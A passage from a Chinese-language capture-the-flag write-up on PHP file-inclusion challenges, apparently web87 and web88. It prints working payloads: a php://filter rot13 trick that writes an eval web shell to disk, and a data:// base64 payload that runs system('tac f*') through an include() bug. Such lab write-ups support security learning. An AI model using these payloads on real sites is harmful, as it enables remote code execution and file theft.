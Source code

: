 2、利用凯撒13：

```
url编码2次：php://filter/write=string.rot13/resource=2.php

content=<?cuc riny($_CBFG[1]);?>
```

<img src=".\图片\Snipaste_2023-02-03_21-58-10.png" alt="Snipaste_2023-02-03_21-58-10" style="zoom:80%;" />

## web88

```
<?php

if(isset($_GET['file'])){
    $file = $_GET['file'];
    if(preg_match("/php|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\-|\_|\+|\=|\./i", $file)){
        die("error");
    }
    include($file);
}else{
    highlight_file(__FILE__);
}
```

这题多过滤了一点东西，发现可以用data协议，data://text/plain;base64

但是直接base64加密的<?php system('tac f*');会有==号，过不了，所以换成代码执行。

payload：

```
?file=data://text/plain;base64,PD9waHAgZXZhbCgkX0dFVFsxXSk7&1=system('tac f*');
 <?php eval($_GET[1]);     ==      PD9waHAgZXZhbCgkX0dFVFsxXSk7
```

